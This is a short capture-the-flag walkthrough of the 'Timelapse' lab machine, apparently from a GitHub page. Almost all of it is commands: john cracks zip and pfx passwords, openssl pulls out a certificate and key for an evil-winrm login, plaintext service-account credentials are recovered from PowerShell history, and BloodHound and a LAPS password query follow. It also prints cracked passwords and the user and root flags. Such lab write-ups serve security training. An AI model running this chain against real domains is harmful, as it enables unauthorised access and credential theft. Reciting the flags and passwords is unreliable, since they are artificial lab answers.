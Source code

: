 # Enumeration
## Nmap
```bash
sudo nmap -sC -sV -oA nmap/timelapse 10.10.11.152
```

smb

zipfile

```
john hash.txt --wordlist=/usr/share/Seclists/password/rockyou.txt

supremelegacy
```

pfx file which has a pwd so convert that with john.
```
thuglegacy
```


```
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes

openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out key.crt
```

Log in with evil-winrm
```
evil-winrm -S -i 10.10.11.152 -c key.crt -k key.pem
```

# Shell as legacyy
user.txt
```
d8af07eedb721982d81dee7cb4261efb
```

check useful files:
```
C:\Users\legacyy\APPDATA\roaming\microsoft\windows\powershell\psreadline
```

lmao free creds.
```
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

bloodhound time.
```
python3 bloodhound.py -c all -dc dc01.timelapse.htb -d timelapse.htb -u svc_deploy@timelapse.htb -ns 10.10.11.152 --zip
```

laps member

```
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *
K2W;H92BOl;j2{BO/j!38MxL
```

root.txt
```
ff7b347b27d7a1de65513953c8c74791
```